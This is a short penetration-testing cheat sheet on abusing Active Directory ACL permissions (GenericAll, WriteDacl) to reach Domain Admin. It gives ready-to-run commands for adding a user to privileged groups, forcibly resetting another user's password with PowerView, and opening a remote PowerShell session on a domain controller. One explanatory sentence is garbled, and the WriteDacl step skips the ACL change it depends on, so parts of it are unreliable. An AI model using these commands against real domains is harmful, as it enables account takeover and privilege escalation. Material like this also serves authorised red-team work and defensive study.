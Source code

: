 # Abusing ACL

## GenericAll

- If a user has GenericAll access over a group on a domain, "it allows them to directly modify group membership of the group."
  So we could add our user to a group that has more rights on the domain to make our way to Domain Admin.  
  ` net group groupname f.lastname /add /domain`

- If a user has GenericAll rights over a user it is possible to try to Force Change password *Note: our current user is f.lastname1 and the user we have genericAll rights over is f.lastname2*  
  `$SecPassword = ConvertTo-SecureString 'SafePassword1!' -AsPlainText -Force`  
  `$cred = New-Object System.Management.Automation.PSCredential('domain\f.lastname1', $SecPassword)`  
  `$UserPass = ConvertTo-SecureString 'NewSafePass1!' -AsPlainText -Force`  
  `Set-DomainUserPassword -Identity f.lastname2 -AccountPassword $UserPass -Credential $cred` *Note: This is a PowerView Function*  
  
- If the previous command as successfully completed (this would usually no error outputed usally you would have any output after a successful command)
- We can check with a remote powershell that we were successful `Enter-PSSession -ComputerName dc01 -Credential domain\f.lastname2`

## WriteDacl

- This means our user can grant themselve any privilege they want on the object. *Understand here that we can grand ourselves domain admin"*  
  `net group "Domain admins" f.lastname /add /domain`

## Resources

{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall" %} BloodHound Documentation - GenericAll {% endembed %}
